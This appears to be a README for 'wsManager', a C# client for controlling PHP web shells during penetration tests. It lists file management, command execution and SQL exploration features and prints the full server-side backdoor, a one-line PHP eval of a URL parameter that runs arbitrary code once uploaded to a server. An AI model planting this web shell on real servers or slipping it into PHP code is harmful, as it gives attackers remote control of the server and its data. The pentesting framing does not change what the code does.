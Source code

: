 ## Informations

wsManager can be used to quickly execute commands on a server when pentesting a PHP application. 
the client interface is written in C#, which operate on web-based backdoors implemented by user himself. 

Once uploaded, the web shell can be accessed by the client at any time. Once successfully connected, the user proceeds to manipulate files and data on the web server.

The server-side code is extremely simple and contains just a single line of code :
```php
<?php @eval($_GET["x"]); ?>
```

Many commands and control features:

  * File manager (upload, download, archiver, etc)
  * Command execution
  * SQL Explorer

## Documentations

Coming soon

## Screenshots

![](https://i.imgur.com/vDoTUUJ.png)
![](https://i.imgur.com/ZU4HJmd.png)
![](https://i.imgur.com/3I7Rjdf.png)
![](https://i.imgur.com/zbB5XTs.png)
![](https://i.imgur.com/VeRb4dN.png)

## Misc

Todo:
  * .
